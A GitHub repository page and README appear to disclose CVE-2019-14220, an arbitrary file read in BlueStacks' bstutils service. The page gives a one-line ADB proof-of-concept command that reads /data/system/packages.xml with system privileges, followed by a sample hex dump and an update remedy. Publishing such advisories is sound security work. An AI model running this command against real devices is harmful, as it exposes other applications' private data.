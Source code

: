 # cve-2019-14220

Arbitrary file read in BlueStacks

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/seqred-s-a](https://github.com/seqred-s-a) |
| Url      | [https://github.com/seqred-s-a/cve-2019-14220](https://github.com/seqred-s-a/cve-2019-14220)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* advisory* android-emulator* cve* cve-2019-14220* exploit* security

</details>

## Readme

# Summary

An unprotected method in a bstutils service in BlueStacks 4.120 and below on Mac
and 4.110 and below on Winodws allows a local attacker to read the contents of
arbitrary files with system privileges.

# Description

BlueStacks is an Android emulator available for Windows and Mac systems. It works
by creating a virtual smartphone/tablet device inside the host operating system.
The emulated Android OS includes multiple custom binaries developed by BlueStacks
developers, including a system service called bstutils (identified by an interface
descriptor com.bluestacks.os.IbstUtilsService). This service contains a method
readFile() (transaction id 6 on a tested system), which returns the contents of a file
located under the path provided as method’s argument.

readFile() method can be called by any user, including an unprivileged third-party app.
However, methods in the bstutils service are executed by the system_server process
which runs with system and gid. This means that the method can be used to retrieve
contents not accessible to the caller, including private data of other installed
applications.

# Reproduction

Reproducing this issue in ADB is as simple as running the following command:

```service call bstutils 6 s16 /data/system/packages.xml```

The result should be a hex dump of packages.xml file:


```
Result: Parcel(
0x00000000: 00000000 0005caf0 003f003c 006d0078 ‘……..<.?.x.m.’
0x00000010: 0020006c 00650076 00730072 006f0069 ‘l. .v.e.r.s.i.o.’
0x00000020: 003d006e 00310027 0030002e 00200027 ‘n.=.’.1…0.’. .’
0x00000030: 006e0065 006f0063 00690064 0067006e ‘e.n.c.o.d.i.n.g.’
0x00000040: 0027003d 00740075 002d0066 00270038 ‘=.’.u.t.f.-.8.’.’
0x00000050: 00730020 00610074 0064006e 006c0061 ‘ .s.t.a.n.d.a.l.’
0x00000060: 006e006f 003d0065 00790027 00730065 ‘o.n.e.=.’.y.e.s.’
0x00000070: 00200027 003e003f 003c000a 00610070 ”. .?.>…<.p.a.’
0x00000080: 006b0063 00670061 00730065 000a003e ‘c.k.a.g.e.s.>…’
0x00000090: 00200020 00200020 0076003c 00720065 ‘ . . . .<.v.e.r.’
0x000000a0: 00690073 006e006f 00730020 006b0064 ‘s.i.o.n. .s.d.k.’
0x000000b0: 00650056 00730072 006f0069 003d006e ‘V.e.r.s.i.o.n.=.’
0x000000c0: 00320022 00220035 00640020 00740061 ‘”.2.5.”. .d.a.t.’
0x000000d0: 00620061 00730061 00560065 00720065 ‘a.b.a.s.e.V.e.r.’
0x000000e0: 00690073 006e006f 0022003d 00220033 ‘s.i.o.n.=.”.3.”.’
0x000000f0: 00660020 006e0069 00650067 00700072 ‘ .f.i.n.g.e.r.p.’
0x00000100: 00690072 0074006e 0022003d 006f0067 ‘r.i.n.t.=.”.g.o.’
0x00000110: 0067006f 0065006c 006d002f 00720061 ‘o.g.l.e./.m.a.r.’
0x00000120: 0069006c 002f006e 0061006d 006c0072 ‘l.i.n./.m.a.r.l.’
0x00000130: 006e0069 0037003a 0031002e 0031002e ‘i.n.:.7…1…1.’
0x00000140: 004e002f 0046004f 00360032 002f0056 ‘/.N.O.F.2.6.V./.’
0x00000150: 00360033 00360033 00320033 003a0032 ‘3.6.3.6.3.2.2.:.’
0x00000160: 00730075 00720065 0072002f 006c0065 ‘u.s.e.r./.r.e.l.’
0x00000170: 00610065 00650073 006b002d 00790065 ‘e.a.s.e.-.k.e.y.’
0x00000180: 00220073 002f0020 000a003e 00200020 ‘s.”. ./.>… . .’
0x00000190: 00200020 0076003c 00720065 00690073 ‘ . .<.v.e.r.s.i.’
0x000001a0: 006e006f 00760020 006c006f 006d0075 ‘o.n. .v.o.l.u.m.’
0x000001b0: 00550065 00690075 003d0064 00700022 ‘e.U.u.i.d.=.”.p.’
0x000001c0: 00690072 0061006d 00790072 0070005f ‘r.i.m.a.r.y._.p.’
0x000001d0: 00790068 00690073 00610063 0022006c ‘h.y.s.i.c.a.l.”.’
0x000001e0: 00730020 006b0064 00650056 00730072 ‘ .s.d.k.V.e.r.s.’
0x000001f0: 006f0069 003d006e 00320022 00220035 ‘i.o.n.=.”.2.5.”.’
0x00000200: 00640020 00740061 00620061 00730061 ‘ .d.a.t.a.b.a.s.’
0x00000210: 00560065 00720065 00690073 006e006f ‘e.V.e.r.s.i.o.n.’
0x00000220: 0022003d 00220033 00660020 006e0069 ‘=.”.3.”. .f.i.n.’
0x00000230: 00650067 00700072 00690072 0074006e ‘g.e.r.p.r.i.n.t.’
0x00000240: 0022003d 006f0067 0067006f 0065006c ‘=.”.g.o.o.g.l.e.’
0x00000250: 006d002f 00720061 0069006c 002f006e ‘/.m.a.r.l.i.n./.’
0x00000260: 0061006d 006c0072 006e0069 0037003a ‘m.a.r.l.i.n.:.7.’
0x00000270: 0031002e 0031002e 004e002f 0046004f ‘..1…1./.N.O.F.’
0x00000280: 00360032 002f0056 00360033 00360033 ‘2.6.V./.3.6.3.6.’
0x00000290: 00320033 003a0032 00730075 00720065 ‘3.2.2.:.u.s.e.r.’
0x000002a0: 0072002f 006c0065 00610065 00650073 ‘/.r.e.l.e.a.s.e.’
0x000002b0: 006b002d 00790065 00220073 002f0020 ‘-.k.e.y.s.”. ./.’

//… output truncated for brevity
```

# Remedy

Update BlueStacks to version 4.130 or later.



## Get the content

```
git clone https://github.com/seqred-s-a/cve-2019-14220
cd cve-2019-14220
```

{% embed url="https://github.com/seqred-s-a/cve-2019-14220" %}

<figure><img src="https://avatars.githubusercontent.com/u/49437606?v=4" alt=""><figcaption><p>seqred-s-a</p></figcaption></figure>
